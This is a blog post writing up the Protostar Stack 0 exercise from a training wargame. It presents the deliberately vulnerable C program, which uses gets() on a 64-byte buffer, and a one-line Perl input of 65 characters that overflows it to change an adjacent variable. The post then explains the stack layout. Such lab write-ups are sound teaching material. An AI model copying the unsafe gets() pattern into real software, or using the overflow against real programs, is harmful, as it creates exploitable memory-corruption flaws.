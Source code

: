```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 0"
date: 2011-12-12T05:17:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


I'm still working on the Nebula chain of challenges, however, I've been stuck on [Nebula 11](http://exploit-exercises.com/nebula/level11) for a bit now, as well as busy outside work. 

In the meantime, I still have other challenges that can be solved while I learn how to do more advanced ones. [Protostar](http://exploit-exercises.com/protostar) is another challenge made by [Exploit-Exercises](http://exploit-exercises.com), the same people who brought you [Nebula](http://exploit-exercises.com/nebula). 

<!-- more -->

[Protostar Stack 0](http://exploit-exercises.com/protostar/stack0) is a very easy challenge.  After doing a bunch of these challenges, and seeing nobody else doing them, I finally found someone, [Mito125](http://twitter.com/Mito125twit).  We've been chatting a little bit back and forth, and I like that we both seem to have different solutions to the problems.  His can be found [here](http://mitomito125.blogspot.com/2011/12/protostar-stack0-writeup.html).  Note that he blogs in Italian, but you can get the gist using Google Translate. 

First, we are given a vulnerable piece of C code:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];

 modified = 0;
 gets(buffer);

 if(modified != 0) {
  printf("you have changed the 'modified' variable\n");
 } else {
  printf("Try again?\n");
 }
}
```

My solutions is very similar, however a little different only due to the language being used.  He uses python, and I use perl.  I one day should switch to python on the command line, but I'm set in my ways.  My solution is as follows:

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x65' | ./stack0
you have changed the 'modified' variable
```

What is happening here, is that first the "modified" variable is put onto the stack (0).  It is followed by the assignment of the "buffer" when being read. Because of this, if you put more than the buffer can hold (64), it will overflow into previously assigned items in the stack.  So we essentially are overflowing and assigning "modified" to "A".
